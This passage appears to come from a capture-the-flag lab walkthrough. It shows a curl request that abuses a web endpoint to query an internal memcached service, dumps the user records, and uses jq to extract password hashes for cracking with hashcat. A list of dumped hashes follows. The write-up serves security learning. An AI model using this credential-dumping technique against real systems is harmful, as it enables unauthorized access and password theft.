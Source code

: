
    root@kali# curl -s 'http://10.10.10.86:8080/socket?port=11211&cmd=get users' -H "Cookie: password=secret" | recode.md..ascii | sed -n '/VALUE/{:a;n;/END/b;p;ba}' | jq . > users.json



#### Get Hashes for hashcat

I'll make a file of hashes to send to `hashcat` using jq. Right now, I
want all of the values, regardless of the key. To do this, I'll make use
of the `jq` function `to_entries`.

I'll use some example data as a test, an object with two keys, "foo" and
"baz":



    root@kali# echo '{"foo": "bar", "baz": "buzz"}' | jq .
    {
      "foo": "bar",
      "baz": "buzz"
    }



If I send that into `to_entries`, it will create an array, where each
item has a `key` and a `value`:



    root@kali# echo '{"foo": "bar", "baz": "buzz"}' | jq 'to_entries'
    [
      {
        "key": "foo",
        "value": "bar"
      },
      {
        "key": "baz",
        "value": "buzz"
      }
    ]



If I want just the values, I can get them:



    root@kali# echo '{"foo": "bar", "baz": "buzz"}' | jq 'to_entries | .[].value'
    "bar"
    "buzz"



I can take the same approach to get the hashes:



    root@kali# cat users.json | jq -r 'to_entries | .[].value'
    17906b445a05dc42f78ae86a92a57bbd
    c6ab361604c4691f78958d6289910d21
    e4a4c90483d2ef61de42af1f044087f3
    afbde995441e19497fe0695e9c539266
    d3792794c3143f7e04fd57dc8b085cd4
    bc5f9b43a0336253ff947a4f8dbdb74f
    d7505316e9a10fc113126f808663b5a4
    71f08b45555acc5259bcefa3af63f4e1
    8f61be2ebfc66a5f2496bbf849c89b84
    2c22da161f085a9aba62b9bbedbd4ca7
    ...[snip]...

